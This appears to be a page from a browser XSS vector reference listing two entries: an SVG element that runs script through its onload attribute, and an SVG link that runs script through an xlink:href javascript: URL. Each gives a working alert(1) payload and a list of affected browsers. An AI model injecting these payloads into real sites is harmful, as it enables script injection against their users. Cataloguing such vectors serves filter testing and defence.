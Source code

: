 reporter：Romain

### SVG element allows automatic execution of onload attribute without other SVG elements.#65test

SVG tags allow code to be executed with onload without any other elements. This makes for a very short and effective XSS vector, useful in many situations.

```
<svg onload="javascript:alert(1)" ></svg> 
```

Not really a bug to fix, this is desired behaviour and only increases XSS scope.

*   chrome 4.0
*   chrome latest

*   safari 3.4

*   safari latest

*   firefox 2.0

*   firefox latest

*   opera 9.x

*   opera latest

*   internet explorer 9.0

*   internet explorer latest

*   xss

*   svg
*   onload
*   chrome
*   firefox
*   safari
*   opera

*   [`www.w3.org/TR/SVG11/attindex.html`](http://www.w3.org/TR/SVG11/attindex.html)

*   [`www.w3.org/TR/SVGTiny12/attributeTable.html`](http://www.w3.org/TR/SVGTiny12/attributeTable.html)

reporter：gareth

### SVG simple passive JavaScript execution via XLink#87test

Browsers that support SVG, forced to support XLink. The parameter of the attribute "xlink:actuate" for <a> tag is fixed - "onRequest".

```
<svg > <a  xlink:href="javascript:alert(1)"><rect width="1000" height="1000" fill="white"/></a> </svg> 
```
